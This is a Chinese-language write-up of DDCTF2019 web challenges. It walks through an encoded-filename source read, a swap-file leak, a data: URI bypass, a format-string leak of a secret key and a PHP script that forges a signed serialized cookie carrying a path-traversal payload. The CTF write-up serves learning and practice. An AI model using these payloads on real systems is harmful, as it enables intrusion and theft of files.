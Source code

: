 ```yaml
---
title: DDCTF2019 Writeup
date: 2019-04-25 00:17:49
tags: [writeup, ddctf]
---
```


历时 N 天, 滴滴终于审完了 Writeup, 终于可以发 wp 了, 我从 33 名到 16 名, 太真实了...  
部分题目质量还是不错的 \_(:з」∠)\_, 因为要交上去, 所以就没截图了, 凑合看吧 (逃  



## Web

### 滴~
`http://117.51.150.246/index.php?jpg=TmpZMlF6WXhOamN5UlRaQk56QTJOdz09` 中 `TmpZMlF6WXhOamN5UlRaQk56QTJOdz09`  
可以看出来是双层 base64 + 一层 base16, 解码得到 flag.jpg, 那么可以得到 index.php 就是 `TmprMlJUWTBOalUzT0RKRk56QTJPRGN3`,  
就可以直接读源码了, 然而并没有 flag, 也不能读 config.php,  
跟着注释中的网址 `https://blog.csdn.net/FengBanLiuYun/article/details/80616607` 可以在同作者底下找到 vim 学习记录, 找到 `.practice.txt.swp` 但是直接访问 404...,  
各种姿势尝试发现是 `practice.txt.swp`... 有毒, 得到 `f1ag!ddctf.php` 的提示, 用 `f1agconfigddctf.php` 绕过, 得到源码,  
用 `f1ag!ddctf.php?k=data:,123&uid=123` 即可绕过, 得到 flag.

### WEB 签到题
在 `/js/index.js` 找到验证逻辑, 通过 `didictf_username` 的 `header` 来验证, 随便试了个 `admin` 就通过了,  
得到下一步地址 `/app/fL2XID2i0Cdh.php`,  
```php
if(!empty($_POST["nickname"])) {
    $arr = array($_POST["nickname"],$this->eancrykey);
    $data = "Welcome my friend %s";
    foreach ($arr as $k => $v) {
        $data = sprintf($data,$v);
    }
    parent::response($data,"Welcome");
}
```
让 nickname 为 %s 就可以拿到 key, 通过双写绕过替换. 然后构造 Cookie 反序列化就可以了, 脚本如下  
```php
<?php
Class Application {
// ... 省略
}

$a = new Application();
$a->path = "..././config/flag.txt";
$s = serialize($a);
$key = "EzblrbNS";
$s .= md5($key . $s);
echo $s; // O:11:"Application":1:{s:4:"path";s:21:"..././config/flag.txt";}5a014dbe49334e6dbb7326046950bee2
```
把 `ddctf_id` 的值改成这个访问下就拿到 flag 了.
